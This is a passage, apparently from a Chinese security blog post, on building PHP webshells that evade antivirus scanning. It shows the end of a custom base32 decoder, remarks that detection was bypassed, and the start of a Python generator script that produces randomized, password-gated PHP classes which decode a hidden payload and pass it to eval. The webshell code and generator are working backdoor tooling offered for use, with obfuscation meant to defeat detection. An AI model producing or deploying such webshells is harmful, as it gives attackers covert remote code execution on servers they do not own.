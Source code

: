 ```
    }

    return $output;
}

function base32_decode($input) {
    $output = '';
    $v = 0;
    $vbits = 0;

    for ($i = 0, $j = strlen($input); $i < $j; $i++) {
        $v <<= 5;
        if ($input[$i] >= 'a' && $input[$i] <= 'z') {
            $v += (ord($input[$i]) - 97);
        } elseif ($input[$i] >= '2' && $input[$i] <= '7') {
            $v += (24 + $input[$i]);
        } else {
            exit(1);
        }

        $vbits += 5;
        while ($vbits >= 8) {
            $vbits -= 8;
            $output .= chr($v >> $vbits);
            $v &= ((1 << $vbits) - 1);
        }
    }
    return $output;
}
?>
```

继续查杀：

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46brlTnACqnQiaFgtHEia9FZCn9Dw1Nj9jTV6f7iaaGoA6hNGzycw0nHXaw/640?wx_fmt=png)

能否运行：

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46eXKL78IcDf5BL2YYBKCbEDViavtxkPwpDxrVBAiczqro4zH3MgA0Kqzg/640?wx_fmt=png)

至此，我们似乎找到了盲点，以后直接自己写加密完事了。可惜一句话木马也被写成一段话木马了。。。不过在渗透测试过程中完全可以将其拆分为多个文件互相调用。  
**0x02：批量代码**  
同样为了减少特征  
代码如下

```
import random

#author: pureqh
#github: https://github.com/pureqh/webshell
#use:GET:http://url?pass=pureqh POST:zero

shell = '''<?php
class {0}{1}
        public ${2} = null;
        public ${3} = null;
        function __construct(){1}
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){1}
        $this->{2} = 'mv3gc3bierpvat2tkrnxuzlsn5ossoy';
        $this->{3} = @{9}($this->{2});
        @eval({5}.$this->{3}.{5});
        {4}{4}{4}
new {0}();
function {6}(${7}){1}
    $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';
```